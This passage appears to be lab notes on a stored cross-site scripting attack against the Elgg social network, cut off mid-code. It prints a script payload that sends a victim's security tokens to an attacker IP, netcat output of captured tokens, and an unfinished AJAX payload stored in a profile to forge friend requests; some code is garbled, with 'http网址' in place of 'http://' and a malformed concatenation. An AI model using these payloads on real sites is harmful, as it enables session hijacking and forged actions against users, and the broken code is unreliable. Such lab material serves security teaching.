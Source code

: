 > Using the `"HTTP Header Live"` add-on to Inspect HTTP Headers

![Screen Shot 2020-09-20 at 00.18.19](https://i.imgur.com/rRo8aig.png)

![Screen Shot 2020-09-20 at 00.16.52](https://i.imgur.com/lzjweg9.png)


### construct the URL for send add friend Request
- retrieve the two tokens

```js
<script>
    document.write('<img src=http网址attackerIP:5555?c= ' + elgg.security.token.__elgg_ts + '& ' + elgg.security.token.__elgg_token + '>');
</script>
```

The nc output seems like this, & seperate the token.

```
GET /?c=1520227817&0fab54e97b2fa75c39d298de602a5939 HTTP/1.1
Host: 192.168.56.4:1234
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
```

- If the web app does not match passwords (or the case when we have the password of the intended victim)
- can simply use a python script to use the authentication and use requests module to send a `GET request` and the attack will have been executed.
- The code
  - take the input from the nc command, split into sections to get the required cookies and the tokens.
  - send a request to the desired link using the `HTTPBasicAuth` module and the cookies and parameters set along with the `GET request`.
  - This can be used in cases when the script file we make is bigger than the allowed number of characters inside the text box that has the vulnerability.

To actually make other accounts execute the malicious code, the code needs to be in the same place where the previous codes to obtain cookie and the tokens were placed. This is the case when the password of the victim is not held with the attacker.
- use the following code in javascript using AJAX
- store it into the 'about me' section of user11.

This code forms the `GET request` to duplicate the add friend action of the web app.
- When the victim say alice views the homepage of the attacker user11,
- her browser will read this code
- execute the javascript inside the tags.
- Since the user is logged in while the code is executed, the attack will run smoothly and user11 will be added to the friend list of alice.


```js
<script type="text/javascript">

window.onload = function () {
    // access Security Token __elgg_token
    var token = "&__elgg_token" + elgg.security.token.__elgg_token;

    // access Time Stamp __elgg_ts
    var ts = "&__elgg_ts" + elgg.security.token.__elgg_ts;

    // user ID from LiveHTTPHeader
    var sendurl = "http网址www.web.com/action/add?friend=42"+ts=token;

    // write the Ajax cod
```